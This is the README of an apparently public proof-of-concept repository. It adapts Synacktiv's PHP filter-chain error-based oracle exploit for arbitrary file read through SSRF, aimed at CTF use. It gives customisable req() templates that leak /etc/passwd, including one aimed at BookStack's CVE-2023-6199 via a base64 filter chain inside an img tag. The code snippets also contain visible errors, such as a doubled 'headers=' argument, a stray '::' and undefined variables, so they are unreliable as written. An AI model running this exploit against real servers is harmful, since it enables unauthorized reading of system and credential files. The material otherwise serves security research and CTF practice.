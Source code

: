 # php_filter_chain_oracle_poc
## Overview

The Synacktiv team published an in-depth research article, *[PHP Filter Chains: File Read from Error-Based Oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle)*, initially disclosed at DownUnder CTF 2022. This research was based on a challenge by `@hash_kitten`, where players were tasked with leaking the `/flag` file from a vulnerable PHP-based infrastructure using **error-based oracles**.

Rather than diving into the deep technical internals (which can be reviewed in the **PoC comments**), this guide presents a **Procedural-Oriented Programming (POP) adaptation** of Synacktiv’s original Object-Oriented Programming (OOP) exploit [(available here)](https://github.com/synacktiv/php_filter_chains_oracle_exploit).

This POP-based approach makes it easier to understand the attack’s step-by-step execution, allowing for **customization of key parameters** when adapting the exploit with just one script, especially for CTF challenges.

- This repository includes two Proof-of-Concept (PoC) scripts:
  - **`poc.py`** – The **standard version**, structured with wrapped functions that cleanly separate each phase of the exploit.
  - **`poc_procedure.py`** – A **more procedure-oriented** approach, specifically designed for **CTF scenarios**, allowing step-by-step customization of the exploitation process.

## Scenarios

PHP filter chain exploits typically require the following attack primitives for **Arbitrary File Read**:

### 1. LFR via SSRF

- **Objective:** Exploiting Server-Side Request Forgery (SSRF), so that we can interact with the server using URLs and PHP stream wrappers (`php://filter`).
- **Example:** CVE-2023-6199 in [BookStack](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/) demonstrates **Local File Read (LFR) via SSRF**.

### 2. Oracle Recovery 

- **Objective:** Capture server responses from oracle-based exploits.
- **Tooling:** Wireshark, tcpdump, or BurpSuite to inspect HTTP responses.
- **Example:** A classic CTF challenge demonstrating this method is available [here](https://github.com/4xura/Bianry4CTF/blob/main/Labyrinth/misc/misc_php_filter_chain_oracle.zip).

## Using the PoC

Before executing the PoC, you need to **customize the `req()` function** to define how the exploit interacts with the target server. Because the specific request method (GET/POST/other) and SSRF entry point will vary depending on the scenario.

A basic example: sending the filter chain via a GET request:

```py
def req(s):
    """ [!] Customize the logic of requests """ 
    file_to_leak = '/etc/passwd'
    chain = f"php://filter/{s}/resource={file_to_leak}"
    
    import requests
    url     = f'http://example.com/ssrf.php?url={chain}'
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Cookie"    : "sessionid=abcdefg123456",
    }
    response = requests.get(url=url, headers=headers=headers)
    
    """
    We send the requests and verify the responses
    If status_code == 200, returns False and stop brute forcing, 
    while we should continue when the server returns 500 (True)
	"""
    return response.status_code == 500
```

To exploit [CVE-2023-6199](https://nvd.nist.gov/vuln/detail/CVE-2023-6199), the `req()` function can be defined for example:

```py
def req(s):
    """ [!] Customize the logic of requests """ 
    file_to_leak = '/etc/passwd'
    chain = f"php://filter/{s}/resource={file_to_leak}"
    
    # Base64 encode the filter embedded inside an <img> tag 
    import base64
    chain_b64 = base64.b64encode(filter_chain.encode("ascii")).decode("ascii")
    html = f"<img src='data:image/png;base64,{chain_b64}'/>"  
    data = {
        "name":"axura", 
        "html": html,
    }
	
    # Send PUT requests to BookStack server 
    import requests
    target = 'https://bookstack.example.com/ajax/page/8/save-draft'
    try:
        response = session.put(
                target,
                data=data,
            )       
    	return response.status_code == 500
    
    except requests.exceptions.ConnectionError::
        print("[-] Could not instantiate a connection")
        exit(1)
```

Once the `req()` function is properly configured, simply execute the script with:

```sh
python3 poc.py
```

If something went wrong (which is possible due to special request data conversion, base64 output filtering logic, or unexpected server responses), use the comments in the scripts to debug the exploit process.
